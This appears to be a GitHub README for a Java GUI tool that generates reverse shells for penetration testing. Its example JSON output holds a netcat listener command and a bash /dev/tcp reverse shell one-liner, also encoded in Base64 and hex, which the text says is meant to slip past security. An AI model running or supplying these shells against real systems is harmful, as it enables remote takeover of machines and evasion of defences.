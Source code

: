 ## Reverse Shell Generaor

This tool help you to generate reverse shells for many purposes, mostly related with penetration testing.

To execute the `Reverse-Shell-Generator.jar` executable, you need to run from the terminal:
```shell
java -jar --enable-preview Reverse-Shell-Generator.jar
```

You can interact with the GUI and you'll get a reverse shell and a listener code to run with your own needs.

The output is as a JSON Object, and give you all the info and code that you maybe need, like IP, Port, if root permissions are required and the differents codes.

The Reverse code is given in plain text, Base 64 encode and Hex encode, because maybe there are security when a payload is sent.

Example JSON Output:

```json
{
  "parameters": {
    "localIP": "10.10.10.10",
    "localPort": 80,
    "requireRootPermission": true
  },
  "reverse_listener_code": "sudo nc -lvnp 80",
  "reverse_shell_code": "sh -i >& /dev/tcp/10.10.10.10/80 0>&1",
  "reverse_shell_code_b64": "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvODAgMD4mMQ==",
  "reverse_shell_code_hex": "7368202d69203e26202f6465762f7463702f31302e31302e31302e31302f383020303e2631"
}
```

GUI:
![Reverse Shell Generator's GUI](images/gui.png)
